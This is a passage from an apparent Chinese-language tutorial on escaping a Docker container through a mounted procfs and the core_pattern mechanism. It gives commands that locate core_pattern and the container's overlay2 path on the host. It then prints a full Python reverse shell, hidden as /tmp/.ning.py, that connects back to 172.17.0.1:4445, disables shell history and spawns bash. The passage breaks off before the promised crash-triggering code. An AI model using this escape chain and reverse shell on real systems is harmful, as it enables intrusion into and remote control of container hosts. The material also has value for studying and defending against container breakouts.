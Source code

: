 这也是挂载 procfs 可以逃逸的核心点了

```php
find / -name core_pattern
```

![](assets/1703484795-02ad462c5de81937bb0ec7b1762e8b86.png)

接下来我们需要找到 docker 在当前宿主机的绝对路径

```php
cat /proc/mounts | xargs -d ',' -n 1 | grep workdir
```

![](assets/1703484795-446b2fa2bb828ee8dfd2585f20c5ca4c.png)

可以看出，当前的绝对路径为-->去除 work 换成 merged

/var/lib/docker/overlay2/a96c15fc172fbec0b7251a44e21408746afa9e9571202132618ed251db3a84a4/merged

接下来我们需要准备一个**反弹 shell 的脚本**以及一个可以**制造崩溃，触发内存转储的代码**

抽丝剥茧，我们先来准备一个反弹 shell 的脚本

```php
vim /tmp/.ning.py
```

```php
#!/usr/bin/python3
import  os
import pty
import socket
lhost = "172.17.0.1"
lport = 4445
def main():
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   s.connect((lhost, lport))
   os.dup2(s.fileno(), 0)
   os.dup2(s.fileno(), 1)
   os.dup2(s.fileno(), 2)
   os.putenv("HISTFILE", '/dev/null')
   pty.spawn("/bin/bash")
   # os.remove('/tmp/.ning.py')
   s.close()
if __name__ == "__main__":
   main()
```
